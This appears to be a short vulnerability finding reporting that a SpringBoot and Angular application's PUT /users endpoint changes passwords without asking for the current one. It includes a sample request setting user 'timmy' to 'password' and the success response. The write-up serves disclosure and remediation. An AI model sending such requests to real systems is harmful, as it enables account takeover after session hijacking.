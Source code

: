 # Lack Password Change Validation/Check
It is widely acknowledged that for users to change a password they ought to be questioned for their current password.  This prevents session hijacks from changing the user's password after gaining control.

## Exploitation
**Location:** _PUT /users_

SpringBoot and Angular code lack any validating parameter for the current password. To exploit simply means to change the password as this is exactly what a session hijacker would do.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "newPassword" : "password",
        "username" : "timmy"
    }

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }
